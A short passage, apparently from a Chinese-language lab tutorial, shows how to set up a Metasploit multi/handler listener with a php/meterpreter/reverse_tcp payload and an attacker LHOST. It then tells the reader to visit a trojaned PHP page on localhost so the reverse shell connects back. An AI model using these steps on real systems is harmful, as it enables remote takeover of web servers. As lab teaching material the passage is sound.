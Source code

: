分别输入如下命令：

```
# 使用相应模块
use multi/handler

set payload php/meterpreter/reverse_tcp

# 查看所需要填写的参数
show options

# 设置攻击者的主机参数
set LHOST 192.168.122.101
```

![图片描述](../imgs/1534156491438.png-wm.png)

在输入攻击命令后，进入待命状态：

```
# 对目标主机进行攻击
exploit
```

此时只要在有木马的网站，访问该页面即可，在火狐浏览器中，输入如下地址：

```
127.0.0.1/hello.php
```
